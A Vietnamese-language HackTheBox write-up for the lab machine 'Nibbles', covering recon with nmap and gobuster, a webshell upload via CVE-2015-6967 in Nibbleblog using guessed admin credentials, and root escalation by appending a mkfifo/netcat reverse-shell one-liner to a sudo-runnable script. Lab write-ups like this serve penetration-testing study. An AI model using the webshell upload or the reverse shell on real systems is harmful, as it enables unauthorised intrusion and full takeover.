 Đây là machine ở mức độ Easy và cũng là machine đầu tiên mình own (Bú ké từ module học chứ không có tiền để chơi module thât =)))

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/e77047f3-2deb-47fa-9199-c61733074c8a)

# Recon:

## nmap:
- Sử dung  `nmap` scan port, version và service:

`nmap -sV -sc 10.129.188.19`

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/787fb4a9-1821-4fcb-a9c5-09ac6e4cdf60)

Cũng không có gì hay lắm

## Scan dir:
- Truy cập vào web và `Ctr U` ta nhận được 1 path:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/8ffe0ee3-e1c6-4520-9a4e-30b7f4c261da)

- Truy cập vào `/nibbleblog/` có vẻ cũng không có gì, có thể sẽ còn 1 path nữa trong này: Sử dung `gobuster` vì đang làm quen với nó luôn :)

`gobuster -q dir -u http://10.129.188.19/nibbleblog/ --wordlist /usr/share/dirb/wordlists/common.txt`

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/0d9e1093-7aa3-4567-a016-2ddf7a7efd73)

- Sau khi truy cập vào path ta chú ý được 3 path `/README`, `/content` và `/admin.php`:
  + `/README`: Tìm được version của nibble và search trên google nó 1 CVE:
  
 ![image](https://github.com/vanniichan/HackTheBox/assets/112863484/c4a08e30-16ff-458f-961d-bee3f52fdd07)

  + `/content`: Trong path này có dẫn đến 1 file xml khác thú vị. `users.xml`:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/8c8b8689-1c47-4f18-90b3-771c43101bbe)

Vậy là cf được có user là admin và chưa có đươc password. Cái này cũng vi phạm vào chính sách weak-password khi ta vào file `config.xml` và đoán được password:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/933d8760-d4f3-4566-898e-403148922167)

  + `/admin.php`: Tìm được trang login của admin và cần tìm được password để log vào: `admin:nibbles`

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/c64ede67-28e7-4e8d-9929-85944c21dcc8)

# Exploit:

## RCE:

- Như đã trình bày ở trên, nó dính CVE cụ thể CVE-2015-6967 này liên quan đế vuln `File Upload`, do đó ta sẽ tiến hành exploit dựa vào tìm các feature `Upload`:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/881d4a50-50eb-47c9-bb75-7892d75bc50f)

- Tiến hành thử upload webshell lên để xem nó có bị filter không. Tuy nhiên sau đó phải đọc file ở đâu? Câu trả lời nằm ở `/content/private/plugins/my_image` mà ta vừa [Recon](https://github.com/vanniichan/HackTheBox/edit/main/Nibbles/Wup.md#recon) ở trên:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/10049b36-85e9-4703-94c5-ec22f873fb4b)

- Upload thành công! tiếp theo sẽ tiến hành RCE:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/b7f9bf50-4a79-4381-8683-f38f05b51050)

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/f1d4e632-fa05-41cd-afe3-33115ab98b0e)

- Từ đây ta lấy được flag của user tại `user.txt`:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/890df679-d849-497b-804d-3e8e69b8e139)

## Privesc:

- Sử dụng `sudo -l` hoặc [LineEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh). Trên tutorial [HTB](https://academy.hackthebox.com/module/77/section/853) nó sẽ hướng dẫn dùng `LinEnum.sh` nhưng `sudo -l` hiện tại vẫn dùng được nên dùng cho nhanh:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/4eb97e44-6268-48fb-a94c-60b22946bd22)

- Từ ảnh trên ta có thể tận dụng việc path `/home/nibbler/personal/stuff/monitor.sh` có thể **chạy root mà không cần password**, tuy nhiên phải xem mình có thể viết vào file này nữa hay không. Nó full quyền luôn, thật là may mắn :)))):

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/36415020-1083-4448-970c-1d2895b5ee9f)

- Tiến hành đè shell vào và chạy file:

`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.147 1111 >/tmp/f' | tee -a monitor.sh`

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/643ecc37-babb-42bb-95f0-ef9299322c6f)

- Vậy là leo quyền thành công, sau đó lấy flag:

![image](https://github.com/vanniichan/HackTheBox/assets/112863484/a1e34d5c-23e2-4aed-a2d2-661e09262276)

----------------------------------------
Ngoài ra còn 1 cách đó là dùng **Metasploit** để khai thác vuln này rất nhanh. Cách làm [ở đây](https://academy.hackthebox.com/module/77/section/854)

-------------------- **Own machine!** --------------------------

